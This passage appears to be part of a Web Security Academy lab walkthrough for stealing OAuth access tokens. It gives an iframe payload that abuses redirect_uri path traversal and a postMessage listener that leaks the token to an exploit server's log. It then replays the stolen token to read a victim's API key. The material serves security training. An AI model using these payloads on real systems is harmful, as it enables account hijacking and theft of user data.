     ```html
    <iframe src="https://YOUR-LAB-AUTH-SERVER/auth?client_id=YOUR-LAB-CLIENT_ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe>
    ```

4. Below this, add a suitable script that will listen for web messages and output the contents somewhere. For example, you can use the following script to reveal the web message in the exploit server's access log:

    ```html
    <script>
        window.addEventListener('message', function(e) {
            fetch("/" + encodeURIComponent(e.data.data))
        }, false)
    </script>
    ```

5. To check the exploit is working, store it and then click "View exploit". Make sure that the *iframe* loads then go to the exploit server's access log. There should be a request for which the path is the full URL of the comment form, along with a fragment containing the access token.
6. Go back to the exploit server and deliver this exploit to the victim. Copy their access token from the log. Make sure you don't accidentally include any of the surrounding URL-encoded characters.
7. Send the *GET /me request* to Burp Repeater. In Repeater, replace the token in the *Authorization: Bearer* header with the one you just copied and send the request. Observe that you have successfully made an API call to fetch the victim's data, including their API key.
8. Use the "Submit solution" button at the top of the lab page to submit the stolen key and solve the lab.
